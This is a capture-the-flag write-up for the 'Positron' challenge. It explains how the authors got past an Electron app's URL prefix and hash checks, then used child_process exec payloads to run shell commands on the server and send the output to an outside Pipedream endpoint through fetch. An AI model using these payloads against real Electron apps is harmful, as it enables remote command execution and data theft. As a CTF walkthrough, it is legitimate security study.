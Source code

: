 # Challenge 55 - Positron

The first impression we had seeing this challenge was, "Whoa, a challenge that touches all 5 domains. Gotta try it out!"

The link provided has an input field that allows a URL input. The submission form seems to suggest that this command will be run on the server:

```
/positron-1.0.0.AppImage --no-sandbox http://example.com
```

Positron sounds like a spin of Electron, the almost omnipresent way to make desktop apps with JavaScript. So we probably assume that this challenge could be similar.

And... AppImage is a way to package software in Linux environments (~~Kelvin: I think this is actually much better than Flatpaks or Snaps but well~~). It is portable and easy to use ([and apparently even liked by Linus Torvards](https://web.archive.org/web/20160205074927/https://plus.google.com/+LinusTorvalds/posts/WyrATKUnmrS)).

So let's download the AppImage and fiddle with it!

## Breaking It

Running it showed a helpful debug screen that we can use, and the `Show Flag` button was interesting. Once clicked -- surprise -- file not found. But we at least learned that the flag is in `flag.html`.

After an `--appimage-extract`, we then were presented a list of folders, of which `resources/` should be juiciest.

Extracting the `resources/app.asar` with [ASAR](https://github.com/electron/asar) exports a highly accurate IE logo artwork, together with an `index.js`, which we saw this very important snippet:

```javascript
app.on('ready', () => {
  const home = 'https://bl.ocks.org/positron-browser/raw/de363db7c6eae43a20a932753b1c29b4/';
  var url = process.argv[2] || home;
  var HashCash = Math.abs(require('crypto-js/sha256')(url).words[1])>>1<1<<11;
  if(!url.startsWith('https://bl.ocks.org/positron-browser') || !HashCash){
    url = home;
  }
  openWindow(url);
});
```

## Aha, URLs

We learned how the URLs are filtered. The `process.argv[2]` corresponds to inputs, but there are validations and not all submitted pages are graced with the arrival of the Positron.

We first verified whether the default `home` is the same as the default page from the AppImage. Going to `https://bl.ocks.org/positron-browser/raw/de363db7c6eae43a20a932753b1c29b4` confirmed it.

To make the AppImage load our payloads for exploits, the URL containing it has to satisfy the two criteria:

1. URL needs to starts with `https://bl.ocks.org/positron-browser`
2. the `HashCash` needs to be `false`

A quick visit to `bl.ocks.org` shows that it is in fact just a glorified frontend of Github Gist. But since we are not the owner of the account `positron-browser`, how can we possibly put our own code there?

Looking at the condition again more carefully, we noticed the string does not have the trailing slash. It is just `/positron-browser`, which means we can simply create any Github account that starts with `positron-browser`, e.g. `positron-browser-123456`, and it can satisfy Condition 1 easily. We then created a Gist with a dummy `index.html` file under a new Github account.

Onwards to Condition 2, `HashCash` checks the value of a SHA256'd "hash" and compares wiht a constant. By appending query string of the URL after `?` with a simple script, we now have a list of valid URLs for this condition.

```javascript
urlBase = 'https://bl.ocks.org/positron-browser-123456/raw/xxxxxx/?';
for (var i = 1000000; i <= 9999999; i++) {
  var url = `${urlBase}${i}`;
  var HashCash = Math.abs(require('crypto-js/sha256')(url).words[1])>>1<1<<11;
  if (HashCash) {
    console.log(url);
  }
}
```

## Exec Exposed

All things are set and it is ready to submit our own URL to the AppImage.

First we started off with a simple `fetch` call to an endpoint at Pipedream, which executed perfectly:

```html
<script>
fetch('https://xxxx.m.pipedream.net?test-positron');
</script>
```

Since the provided source `index.js` has (kindly) provided a "Show Flag" pointing to `flag.html`, we tried our luck there. However, this gives "File not found":

```html
<script>
fetch('flag.html')
    .then(response => response.text())
    .then(text => {
        fetch('https://xxxx.m.pipedream.net/?fetchflaghtml' + text);
    });
</script>
```

We also turned to other methods. How about try looking at what files are there in the directory? As seen from the sample default URL, there is one link that looks attractive to explore too: `<a href="file:///etc/passwd">Show Password</a>`. It was time to try look at the file system.

Knowing that Positron is in fact just a thin wrapper over Electron, we then set up an [Electron Fiddle](https://www.electronjs.org/fiddle) to test the scripts locally.

A quick search shows that there is an `exec` function available from the module `child_process`. Testing with a "Hello World" `exec` script:

```html
<script>
const { exec } = require('child_process');
exec('pwd', (error, stdout, stderr) => {
  fetch('https://xxxx.m.pipedream.net/?exec-error-' + error);
  fetch('https://xxxx.m.pipedream.net/?exec-stdout-' + stdout);
  fetch('https://xxxx.m.pipedream.net/?exec-stderr-' + stderr);
});
</script>
```

Running this locally gives the error `Uncaught ReferenceError: require is not defined`. [StackOverflow](https://stackoverflow.com/questions/44391448/electron-require-is-not-defined) suggested that `require` only works if `nodeIntegration` is enabled and `contextIsolation` is disabled when creating the `BrowserWindow`. The default values are naturally the opposite. In the default local fiddle, both are indeed not set by default in the main process `main.js` (StackOverflow also warned for the security risks for overriding these settings). To know whether `require` can be used on the server side's AppImage, we looked at the extracted `index.js` from the AppImage again, and both settings are there! It assured us this was the right direction to solve this problem.

## Flag Finding

Re-running with such settings worked locally, and on the server too. The next step would be to look at the files inside the same directory, `./`. by changing `'pwd'` to `'ls .'`

```html
<script>
fetch('https://xxxx.m.pipedream.net/?t=checkpoint'); // health check
const { exec } = require('child_process');
exec('ls .', (error, stdout, stderr) => {
    if (error) {
        fetch(`https://xxxx.m.pipedream.net/?t=error${encodeURIComponent(error)}`);
        return;
    }
    fetch(`https://xxxx.m.pipedream.net/?t=stdout${encodeURIComponent(stdout)}`);
    fetch(`https://xxxx.m.pipedream.net/?t=stderr${encodeURIComponent(stderr)}`);
});
</script>
```

Nothing there. Tried `printenv` to see if the flag is located inside the environment variables. Nothing either.

So we tried examining the root folder instead using `ls /`, and then we saw the file `/proof_b69de741-0a31-433b-b11a-d4400754a902.sh`. So we were just a `cat /proof_b69de741-0a31-433b-b11a-d4400754a902.sh` away from the flag. Solved!
